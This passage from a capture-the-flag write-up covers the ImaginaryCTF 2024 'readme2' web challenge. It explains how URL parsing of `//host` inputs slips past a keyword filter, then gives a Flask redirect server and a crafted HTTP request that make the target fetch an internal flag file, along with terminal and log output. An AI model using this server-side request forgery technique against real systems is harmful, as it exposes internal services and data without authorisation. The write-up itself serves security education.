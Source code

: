 As you can see, in `new URL(url, base)`, if we input `//foo.com` in the `url`, it'll treat the input as a **relative URL**.

With that said, we can **abuse this "feature" to bypass the word `flag` filter**!

## Exploitation

With the above information, we can **host a web application that redirects a request to `http://localhost:3000/flag.txt`**!

> Note: The `localhost:3000` is because we want to redirect the `fetch` request to the internal web server.

To do so, we can write a simple Python Flask web application:

```python
#!/usr/bin/env python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect')
def redirectRequest():
    return redirect('http://localhost:3000/flag.txt')

if __name__ == '__main__':
    app.run('0.0.0.0', port=8000, debug=True)
```

```shell
┌[siunam♥Mercury]-(~/ctf/ImaginaryCTF-2024/Web/readme2)-[2024.07.23|13:55:40(HKT)]
└> python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://10.69.96.69:8000
[...]
```

Then, send the following request to the external web server:

```http
GET //10.69.96.69:8000/redirect HTTP/1.1
```

```shell
172.18.0.2 - - [23/Jul/2024 13:56:42] "GET /redirect HTTP/1.1" 302 -
```
